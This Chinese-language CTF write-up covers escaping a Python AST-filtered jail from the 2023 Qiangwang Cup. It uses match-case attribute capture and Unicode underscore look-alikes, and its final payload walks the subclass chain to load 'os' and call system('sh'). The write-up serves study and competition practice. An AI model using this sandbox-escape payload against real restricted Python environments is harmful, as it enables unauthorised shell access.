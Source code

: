 ```yaml
---
title: 记一道很抽象的 PyJail
tags:
- ctf
---
```


CTF 小白，本着重在参与的精神想进队里摸鱼，浪费了一个下午，没想到真的打出了点输出，遂记录之。

题源：2023 强网杯 - Pyjail ! It's myAST !!!!

```python
#!/bin/python3.11
import ast

BAD_ATS = {
  ast.Attribute,
  ast.Subscript,
  ast.comprehension,
  ast.Delete,
  ast.Try,
  ast.For,
  ast.ExceptHandler,
  ast.With,
  ast.Import,
  ast.ImportFrom,
  ast.Assign,
  ast.AnnAssign,
  ast.Constant,
  ast.ClassDef,
  ast.AsyncFunctionDef,
}

BUILTINS = {
    "bool": bool,
    "set": set,
    "tuple": tuple,
    "round": round,
    "map": map,
    "len": len,
    "bytes": bytes,
    "dict": dict,
    "str": str,
    "all": all,
    "range": range,
    "enumerate": enumerate,
    "int": int,
    "zip": zip,
    "filter": filter,
    "list": list,
    "max": max,
    "float": float,
    "divmod": divmod,
    "unicode": str,
    "min": min,
    "range": range,
    "sum": sum,
    "abs": abs,
    "sorted": sorted,
    "repr": repr,
    "object": object,
    "isinstance": isinstance,
}


def is_safe(code):
  if type(code) is str and "__" in code:
    return False

  for x in ast.walk(compile(code, "<QWB7th>", "exec", flags=ast.PyCF_ONLY_AST)):
    if type(x) in BAD_ATS:
      print(x)
      return False

  return True


if __name__ == "__main__":
  user_input = input("Can u input your code to escape > ")

  if is_safe(user_input) and len(user_input) < 1800:
    exec(user_input, {"__builtins__": BUILTINS}, {})
```

# 分析

语法树级别的过滤 & 命名空间限制，目标是 getshell。

由于命名空间限制，获得能 getshell 的函数只能靠继承链，然而语法树又非常重量级地过滤了 Attribute 与 Subscript 操作，想利用继承链必须同时绕过这两个限制。

# 解法

## Trick 1: Match

解此题的突破口在于远端 Python 的版本。自 3.10 起 Python 新增了[模式匹配][match]操作，其对应的树节点是 Match，正好不会被过滤。

利用模式匹配，我们可以捕捉一个实例任何的属性：

```python
def get(d, key):
    match d:
        case dict(get=func):
            return func

get(dict) == dict.get
```

使用这个 trick，就可以将 Attribute 与 Subscript 全部替换成 Match 操作，绕过过滤。

但还有一个问题。

继承链的利用少不了双下划线，然而这题却很鸡贼的也检测了双下划线。因此需要第二个 trick。

# Trick 2: Unicode

Unicode 等价性（Unicode equivalence）是为和许多现存的标准能够兼容，Unicode（统一码）包含了许多特殊字符。在这些字符中，有些在功能上会和其它字符或字符序列等价。因此，Unicode 将一些码位序列定义成相等的。[Wikipedia][unicode-wiki]

当 Python 解释代码时，它会首先使用名为 NFKC 的规范化算法对 Unicode 进行等价，这种算法可以将一些视觉上相似的 Unicode 字符统一为一个标准形式。

```python
import unicodedata
for i in range(0x000000, 0x10FFFF):
    ch2 = chr(i)
    if '_' == unicodedata.normalize('NFKC', ch2):
        print(ch2)
```

上述脚本可以找到所有与下划线 `_` 等价的 Unicode 字符，它们在解释器眼中是同一个字符：`︳︴﹍﹎﹏＿`

```python
match str():
    case (_﹍class﹍_=clazz):
        ...
```

于是可以绕过。

# Payload

一个可用的 Payload

```python
def s(b):
    match bytes([b]):
        case bytes(decode=func):
            return func()
while o := len([min]):
    while t := len([min, min]):
        while th := len([min, min, min]):
            while fo := len([min, min, min, min]):
                while ten := len([min, min, min, min, min, min, min, min, min, min]):
                    match str():
                        case object(_﹍class﹍_=clazz):
                            match clazz:
                                case object(_﹍bases﹍_=bases):
                                    match bases:
                                        case object(_﹍getitem﹍_=gb):
                                            match gb(len([])):
                                                case object(_﹍subclasses﹍_=subclasses):
                                                    match subclasses():
                                                        case object(_﹍getitem﹍_=g2):
                                                            match g2(ten * ten + t*t):
                                                                case object(load_module=lm):
                                                                    match lm(s(ten*(ten+o)+o)+s(ten*(ten+o)+fo+o)):
                                                                        case object(system=sys):
                                                                            sys(s(ten*(ten+o)+fo+o)+s(ten*ten+t*t))

```


[match]: https://docs.python.org/3.10/whatsnew/3.10.html#pep-634-structural-pattern-matching
[unicode-wiki]: https://zh.wikipedia.org/wiki/Unicode%E7%AD%89%E5%83%B9%E6%80%A7